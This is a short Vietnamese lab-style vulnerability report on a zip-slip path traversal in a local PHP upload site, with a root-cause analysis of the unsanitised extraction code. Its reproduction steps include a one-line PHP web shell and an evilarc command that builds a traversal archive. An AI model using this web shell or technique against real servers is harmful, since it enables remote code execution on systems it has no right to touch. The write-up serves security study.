


# PATH TRAVERSAL ở localhost:8096
### 1. Tổng quan
lv6 là website có chức năng upload file, đặc biệt là upload được file .zip

### 2. Phạm vi
### 3. Lỗ hổng
#### Description
localhost:8096 cho phép ta upload file zip và giải nén nó
#### Impact
Tại đây, kẻ tấn công có thể upload file zip chứa file có mã độc và sau khi hệ thống giải nén thì sẽ bị RCE

#### Root-cause analysis

Trong mã nguồn `src/index.php`, hàm `statIndex($i)` sẽ lấy toàn bộ thông tin các file được giải nén như: name,size, .... và đưa vào biến `$info` + việc  đọc nội dung của file bằng hàm `getFromIndex($i)` rồi gán thẳng vào biến `$contents` mà không được sàng lọc.

=> `$info['name']` và biến `$contents`là Untrusted data

    for ($i = 0; $i < $z->numFiles; $i++) {
        if (! $info = $z->statIndex($i))
            return false;
        if ('/' == substr($info['name'], -1))
            continue;
        $contents = $z->getFromIndex($i);

Sau đó `$info['name']` lại được nối thẳng vào đường dẫn với nội dung là biến `$contents` => Path-Traversal => RCE

    if (file_exists(dirname($to . "/" . $info['name']))){ 
      file_put_contents($to . "/" . $info['name'], $contents);

#### Step to reproduce
1. Tạo file `test.php` chứa mã php

Tạo sẵn file test.php chứa nội dung: 

    <?php system($_GET['cmd']); ?>

2. Sử dụng công cụ `evilarc`

Để thay đổi tên file thành: ../../test.php

File nén được tạo ra có tên là evil.zip

    python evilarc.py -d 2 -o unix test.php

3. Upload file evil.zip lên server

4. RCE

